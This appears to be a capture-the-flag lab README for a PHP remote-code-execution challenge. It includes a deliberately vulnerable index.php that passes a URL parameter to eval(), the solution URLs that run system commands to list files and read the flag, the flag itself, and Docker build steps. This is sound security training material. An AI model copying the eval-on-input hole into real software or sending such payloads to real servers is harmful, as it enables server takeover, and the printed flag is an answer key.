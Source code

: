 # Challenge 5: ThinkAboutIt

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
The purpose of this challenge is to demonstrate how **unsanitized commands from the URL** can allow an attacker to execute commands on the server.  
In this scenario, the user can execute system commands directly via a crafted URL.

---

## Solution
1. Access the browser and list the file system:
   ```
   http://localhost:8044/index.php?cmd=system('ls');
   ```
2. View the contents of the flag file:
   ```
   http://localhost:8044/index.php?cmd=system('cat flag.txt');
   ```

**Flag:**
```
flag{rce-php}
```

---

## How to Recreate

### 1. Create Folder Structure
Create a folder containing:
- `Dockerfile`
- `index.php`
- `flag.txt`

### 2. Dockerfile
```dockerfile
FROM php:7.4-apache

# Copy vulnerable PHP file and flag
COPY index.php /var/www/html/index.php
COPY flag.txt /var/www/html/flag.txt

# Enable Apache mod_rewrite just in case
RUN a2enmod rewrite
```

### 3. index.php
```php
<?php
// ⚠️ RCE vulnerability via eval()
if (isset($_GET['cmd'])) {
    eval($_GET['cmd']);
} else {
    echo "Try accessing ?cmd=... to test input.";
}
?>
```

### 4. flag.txt
```
flag{rce-php}
```

### 5. Build and Run
```bash
cd {rce-vuln directory}
docker build -t vuln-rce .
docker run -d -p 8044:80 vuln-rce
```

---

## Final Notes
This challenge highlights the **critical danger of Remote Code Execution (RCE)** vulnerabilities and the necessity of sanitizing and validating all user input.
